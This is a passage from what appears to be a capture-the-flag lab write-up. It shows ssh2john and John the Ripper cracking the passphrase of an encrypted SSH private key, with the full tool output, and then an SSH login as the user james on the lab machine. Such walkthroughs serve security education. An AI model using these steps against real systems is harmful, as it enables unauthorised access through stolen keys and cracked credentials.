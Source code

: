 * Next using `ssh2john.py`, to create a hash of the encrypted key.

```
$ /usr/share/john/ssh2john.py rsa_key > hash_key
```

* Let's now use `john` to crack the hash.

```
$ john hash_key                                             
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 3 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Proceeding with incremental:ASCII
james13          (rsa_key)     
1g 0:00:00:02 DONE 3/3 (2023-12-06 19:32) 0.4132g/s 585384p/s 585384c/s 585384C/s jamest1..james24
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

* Let's give the `rsa_key` file elevated permissions.

```
$ sudo chmod 700 rsa_key
```

* We can now login as `james` using the `rsa_key`.

```
$ ssh -i rsa_key james@10.10.114.146
Enter passphrase for key 'rsa_key': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Dec  6 14:06:09 UTC 2023

  System load:  0.0                Processes:           88
  Usage of /:   22.3% of 18.57GB   Users logged in:     0
  Memory usage: 12%                IP address for eth0: 10.10.114.146
  Swap usage:   0%


47 packages can be updated.
0 updates are security updates.


Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1
james@overpass-prod:~$ 
```
